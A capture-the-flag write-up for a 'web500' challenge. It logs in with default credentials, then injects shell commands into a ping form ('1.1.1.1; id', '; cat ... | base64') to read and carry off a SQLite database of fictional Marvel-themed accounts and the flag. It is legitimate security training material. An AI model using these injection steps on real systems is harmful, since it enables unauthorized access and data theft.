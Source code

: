# web500

## Description
They told me make it hard, so I did.

http://44.197.231.105:3025

## Solve
Visiting the URL we see a login panel in the top corner... lets try some default credentials like `admin:admin`

Ok nice! We are in and there is a "Ping Server" page. This looks like possible command injection!

If we enter `1.1.1.1` in the box and submit we see terminal output:
```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.

--- 1.1.1.1 ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 96ms
```
Let's try terminating the `ping` command and running our own command by entering `1.1.1.1; id`:
```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.

--- 1.1.1.1 ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 96ms

uid=1337(challengeUser) gid=1337(challengeUser) groups=1337(challengeUser)
```
Okay we can skip pinging the host and just run our commands, lets take a look at the directory by running `;ls -la`:
```
total 8
drwxr-xr-x.  5 root root   81 Sep 26 17:50 .
dr-xr-xr-x. 17 root root   50 Dec 11 00:56 ..
-rw-rw-r--.  1 root root 3093 Sep  7 19:56 main.py
drwxrwxr-x.  2 root root   56 Sep  7 19:56 services
drwxrwxr-x.  4 root root   35 Sep  7 19:56 static
-rw-rw-r--.  1 root root  196 Sep 26 17:44 step2
drwxrwxr-x.  6 root root   66 Sep  7 19:56 templates
```
I kept looking through directories and eventually found something interesting via `; ls -la /var/www/html/`:
```
drwxr-xr-x. 2 root root    28 Sep 26 17:50 .
drwxr-xr-x. 3 root root    18 Sep 26 17:50 ..
-rw-rw-r--. 1 root root  2748 Sep  7 19:56 index.php
-rw-rw-r--. 1 root root 12288 Sep  7 19:56 web500.db
```
Since this is an SQLite database we can't just `cat` it out. I also found out `sqlite` isn't installed to query the DB. I used `; cat /var/www/html/web500.db | base64` to encode it in base64 and bring to my local machine. There I decoded it with `echo "<base64>"" | base64 -d > web500.db`
```
user@arch:~/cyber/ctf/mitre-2022/web/web500$ sqlite3 web500.db 
SQLite version 3.40.0 2022-11-16 12:10:08
Enter ".help" for usage hints.
sqlite> .tables
ACCOUNTS
sqlite> SELECT * FROM ACCOUNTS;
|Thor|Odenson|thor|Avenger|Asgard|GodofLightning1!
|Loki| |loki|Villain|Asgard|Mischief$
|Carol|Danvers|cmarvel|Avenger|Earth|HateKree!
|T'Challa| |panther|Avenger|Earth|WakandaForever!
|Shuri||shuri|Wakanda|Earth|WakandaPrince$$
|Peter|Parker|spidy|Avenger|Earth|Web$hooter
|Tony|Stark|ironman|Avenger|Earth|$acrificed1T
|Pepper|Pots|pots|Civilian|Earth|MrsIronman$1
|Bruce|Banner|hulk|Avenger|Earth|$mashEverything!
|Clint|Barton|hawkeye|Avenger|Earth|EagleEye1!
|Thanos| |thanos|Villain|Titan|InfinityStone$
|Vision| |vision|Avenger|Computer/Mind-Stone/Earth|Mind$tone
|Yon-Rogg| |rogg|Villain|Kree|BadGuy101
|Rocket|Racoon|rocket|Guardian of Galaxy|Halfworld|NotaRat!
|Peter|Quill|starlord|Guardian of Galaxy|Earth|Blue$ky!!72
|Groot|Groot|groot|Guardian of Galaxy|PlanetX|IamGr00t!
|Yondu|Udonta|yondu|Guardian of Galaxy|Earth-691|WhistleArrow!
|Drax|Destroyer|drax|Guardian of Galaxy|Earth|KillThano$
|Gamora|Titan|gamora|Guardian of Galaxy|Zehoberei|Soul$tone
|Nebula| |nebula|Guardian of Galaxy|Luphomoids|BadtoGood1
|Corvus|Glaive|corvus|Black Order|Angargal|$killedWarror
|Proxima|Midnight|proxima|Black Order|Angargal|EnergySpear!
|Cull|Obsidian|cull|Black Order|Angargal|$trongCreature
|Ebony|Maw|ebony|Black Order|Angargal|VoldemortWannaBe!
|Steven|Strange|drstrange|Avenger|Earth|Time$tone
|Bucky|Barnes|wintersolider|Avenger|Earth|MetalArm1!
|Sam|Wilson|falcon|Avenger|Earth|NewCap!
|Steve|Rogers|captain|Avenger|Earth|StarsandStripes!
|Wanda|Maximoff|witch|Avenger|Earth|Vision$GF
|Nick|Fury|fury|Shield|Earth|OneEye!
|Scott|Lang|antman|Avenger|Earth|TinyDude!
|Hope|Pym|wasp|Avenger|Earth|TinyGril!
|James|Rhodes|warmachine|Avenger|Earth|BigGunRox!
|Valkyrie| |valkyrie|Valkyrie|Asgard|ChooseroftheSlain!
|Happy|Hogan|hogan|Civilian|Earth|TonysAssistant!
|Odin|Odenson|odin|King|Asgard|KingofAsgard!
|Ultron| |ultron|Villain|Computer|WhatamI?
|Ronan|Accuser|ronan|Villain|Hala|KreeEmpire$
|Charles|Xavier|professorx|X-Men|Earth|Telepath$
|Scott|Summers|cyclops|X-Men|Earth|Lazer$aretheway
|Robert|Drake|iceman|X-Men|Earth|IceIceBaby1
|Henry|McCoy|beast|X-Men|Earth|ImaBea$t
|Logan|Howlett|wolverine|X-Men|Earth|MetalClaw$
|Piotr|Rasputin|colossus|X-Men|Earth|MetalMan!
|Jean|Grey|pheonix|X-Men|Earth|PhoenixForce!
|Max|Eisenhardt|magneto|Villain|Earth|MetalControl!
|Brianna|Hildebrands|warhead|X-Men|Earth|TennageW@rH3ad
|Wade|Wilson|deadpool|Independent|Earth|NotXmen!
|Natasha|Romanoff|widow|Avenger|Earth|Hulk$mash
|Natahan|Summers|cable|X-Force|Future|MetalControl!
|CORTEX|USER|CORTEXUSER|CORTEX|SomethingThatPeopleWouldNeverGuessSoTheyHaveToUseActualInjectionToGetThis|MCA{c706a97ac54c0d362cd188153d40d0791fa58899}
sqlite> 
```

## Flag
```
MCA{c706a97ac54c0d362cd188153d40d0791fa58899}
```